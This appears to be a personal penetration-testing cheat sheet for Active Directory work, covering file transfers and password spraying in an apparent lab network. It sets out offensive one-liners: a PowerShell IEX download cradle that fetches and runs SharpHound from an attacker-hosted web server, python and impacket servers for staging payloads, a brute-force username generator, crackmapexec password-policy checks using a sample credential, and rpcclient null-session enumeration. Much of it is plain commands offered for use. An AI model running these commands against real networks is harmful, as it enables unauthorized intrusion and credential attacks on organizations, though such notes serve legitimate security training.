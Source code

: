```PowerShell
GET NTLMV2USERNAMES
```

## File Transfers

```Shell
sudo python3 -m http.server 8001
```
Starts a python web server for quick hosting of files. Performed from a Linux-basd host. #filetransfers

```PowerShell
"IEX(New-Object Net.WebClient).downloadString('http://172.16.5.222/SharpHound.exe')"
```
PowerShell one-liner used to download a file from a web server. Performed from a Windows-based host. #filetransfers 

```Shell
impacket-smbserver -ip 172.16.5.x -smb2support -username user -password password shared /home/administrator/Downloads/
```
Starts a impacket SMB server for quick hosting of a file. Performed from a Windows-based host. #smb #impacket #filetransfers
## Password Spraying

#### Username Generation
```Shell
#!/bin/bash for x in {{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}} do echo $x; done
```
Bash script used to generate 16,079,616 possible username combinations from a Linux-based host. #usernames #passwordspraying #passwordattacks #bruteforce #bash #passwordpolicy  ^d7b728

#### Password Policies - From Linux
```Shell
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```
Checks password policy on SMB
#crackmapexec #passwordspraying #passwordattacks #passwordpolicy  ^c439f9

```Shell
rpcclient -U "" -N 172.16.5.5
```
Opens null session over RPC Client
#rpcclient #nullsession #passwordpolicy #passwordattacks #smb  ^a5741d

```cmd
querydominfo
```
Gets information about the domain over RPC
#rpcclient #domaininfo 

 ```cmd.exe
 getdompwinfo
```
Gets information about the PW policy of the domain over RPC
#rpcclient #passwordpolicy

